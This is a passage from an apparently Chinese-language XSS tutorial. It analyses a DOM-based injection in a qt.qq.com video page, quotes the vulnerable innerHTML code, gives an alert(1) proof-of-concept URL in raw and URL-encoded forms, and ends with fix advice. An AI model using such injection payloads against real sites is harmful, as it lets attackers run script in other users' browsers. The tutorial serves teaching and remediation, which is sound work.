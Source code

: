 ```
    str += '<embed width="' + w + '" height="' + h + '" name="' + eleid + '" src="' + url + '" quality="autohigh" swLiveConnect="always" wmode="transparent" allowScriptAccess="never" allowFullscreen="true" type="application/x-shockwave-flash" pluginspage="http://www.macromedia.com/go/getflashplayer"></embed>';
    str += '</object>';
    document.getElementById(elm).innerHTML = str
} 
```

图片解析：

![image](img/Image_046.jpg)

```
http://qt.qq.com/video/play_video.htm?sid=aaaaaa%22%3E%3C/object%3E%3Cimg%20src=1%20onerror=alert(1)%3E 
```

非常值得说明的是：

如果采用 6.1 的方法，我们得到的利用代码是

```
http://qt.qq.com/video/play_video.htm?sid=aaaaaa"></object><img src=1 onerror=alert(1)> 
```

!! 这个代码在 IE 下，是没法 XSS 的。

而通过 6.2 的方法，去分析 JS 代码，我们则可以构造出通用的 XSS 代码。

```
http://qt.qq.com/video/play_video.htm?sid=aaaaaa%22%3E%3C/object%3E%3Cimg%20src=1%20onerror=alert(1)%3E 
```

这也反应了 6.1 和 6.2 方法各自的优缺点。

## 修复方案

1\. 修复过滤上的逻辑问题。

2\. 注意不同浏览器中，`location.href` 的不同点。